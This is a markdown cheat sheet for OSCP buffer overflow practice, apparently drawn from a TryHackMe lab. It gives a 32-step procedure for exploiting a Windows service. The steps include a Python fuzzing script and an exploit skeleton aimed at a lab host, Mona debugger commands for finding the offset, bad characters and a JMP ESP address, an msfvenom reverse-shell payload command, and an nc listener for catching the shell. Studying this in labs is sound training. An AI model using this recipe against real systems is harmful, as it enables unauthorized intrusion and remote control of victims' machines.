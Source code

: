 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

* Step 1: Ensure Mona is installed in Immunity Debugger

* Step 2: Launch Immunity Debugger, open relevant application, and run the application

* Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

* Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
* Step 5: Create exploit.py skeleton:
 
 Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
* Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

* Step 7: Paste output from Step 6 into payload variable of exploit.py
  
* Step 8: Restart application in Immunity, Run exploit.py from attack machine
 
* Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
 *PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*
 

* Step 10: Set offset variable of exploit.py as the offset found in Step 9
 
* Step 11: Set retn variable to "BBBB" in exploit.py

* Step 12: Restart application in Immunity; Run exploit.py
  
* Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
* Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Step 15: Run Bad Characters Script

* Step 16: Paste Bad Characters output into payload variable of exploit.py

* Step 17: Re-open application in Immunity but do not run it

* Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

* Step 19: Start application in Immunity; Run exploit.py on attack machine

* Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

* Step 21: Remove first bad character in the list generated in Step 20 from payload variable in exploit.py

* Step 22: Reopen Application but do not run it

* Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

* Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

* Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb [BAD-CHARACTERS]
```

* Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

* Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

* Step 28: Paste generated payload into payload variable of exploit.py

* Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

* Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

* Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

* Step 32: Check listener, it should have a shell

## Reference

* https://tryhackme.com/room/bufferoverflowprep#
